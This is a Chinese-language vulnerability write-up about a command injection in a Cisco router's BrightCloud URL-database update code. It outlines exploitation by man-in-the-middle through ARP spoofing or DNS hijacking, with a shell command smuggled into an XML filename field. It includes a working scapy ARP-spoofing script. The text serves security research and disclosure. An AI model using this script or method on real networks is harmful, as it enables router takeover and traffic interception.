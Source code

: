 ```
sprintf(          s,          "rm %s%s; cp %s %s; rm /tmp/%s",          "/mnt/webrootdb/",          "full_bcdb_rep_1m*",          (const char *)cmdinject,          "/mnt/webrootdb/",          "full_bcdb_rep_1m*");                 // 命令注入        if ( isstdout )          printf(" saving the 1M URLDB file to webroot parition using the command:'%s'\r\n", s);        if ( issyslog )          syslog(6, " saving the 1M URLDB file to webroot parition using the command:'%s'\r\n", s);        if ( popen(s, "r") )        {          if ( isstdout )            printf(" Successfully saved the file to webroot partition '%s'\r\n", "/mnt/webrootdb/");          if ( issyslog )            syslog(6, " Successfully saved the file to webroot partition '%s'\r\n", "/mnt/webrootdb/");        }
```  
  
要利用这个漏洞，需要做一次中间人攻击，让攻击者的主机向路由器返回一个响应体，这个响应体的xml  
文件的filename  
标签中可以嵌入恶意的shell  
命令，然后把反弹shell  
脚本部署在中间人的主机上。  
  
这个漏洞具有一定局限性，只能24  
小时攻击一次，或者等待设备重启之后再攻击。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhQByibgTdbwbMqNibWMKbHKrjwUUY8GNZlAoUlcic5ibVhyCebVwoNialnow/640?wx_fmt=png "404 logo-b04.png")  
  
  
  
**漏洞利用**  
  
  
  
这里  
做  
中间  
人攻击，有两种利用方式，这  
两种利用方式都有一定的  
局限性。  
  
第一种是arp欺骗，把毒化整个局域网下所有主机的arp缓存，让路由器的ip地址对应攻击者主机的mac地址，这种情况下，路由器会认为攻击者的主机是整个局域网的网关，bcap15.brightcloud.com  
服务器返回的响应会首先通过攻击者的主机，设置ip_forword流量转发和iptables规则，完成改包。  
  
第二种是想办法做DNS劫持，把bcap.brightcloud.com ，databse.brightcloud.com这两域名和恶意的服务ip绑定，这样所有发送给这两个服务器的请求都可以被攻击者截获。  
  
第一种利用方式，由于劫持了局域网下的所有入口流量，很容易导致整个局域网炸网，出现路由器重启之后无法连接外网的情况，路由器无法连接外网，就无法向bcap.brightcloud.com  
服务器发送请求，给分析和复现带来困难，这里给出arp欺骗攻击的脚本，有兴趣可以尝试一下。  
```
import osfrom tabnanny import verbosefrom numpy import broadcastfrom scapy.all import *import requestsgateway_ip = "192.168.1.1"          # cisco ip addressfake_gateway_ip = "192.168.1.127"   # ubuntu ip addressdef arpspoof(gateway_ip,fake_gateway_mac):    packet = ARP(op=2,pdst="0.0.0.0",psrc=gateway_ip,hwsrc=fake_gateway_mac)        # arp广播    send(packet,verbose=False)def exp():    #fake_gateway_mac = get_mac(fake_gateway_ip)    try:        sent_packets_count = 0        while True:            arpspoof(gateway_ip,"00:0c:29:9f:9f:4a")            #arpspoof(attack_ip,gateway_ip)            sent_packets_count += 1            print("[*] Packets Sent "+str(sent_packets_count))            os.system("arp -a|grep 192.168.1.1")            time.sleep(2)    except KeyboardInterrupt:        print("\nCtrl + C pressed.............Exiting")        print("[+] Arp Spoof Stopped")exp()
```  
  
arp包设置成广播包，pdst和hwdst都置空，这样可以完成对整个子网的欺骗，完成对bcap15.brightcloud.com  
响应的拦截。  
  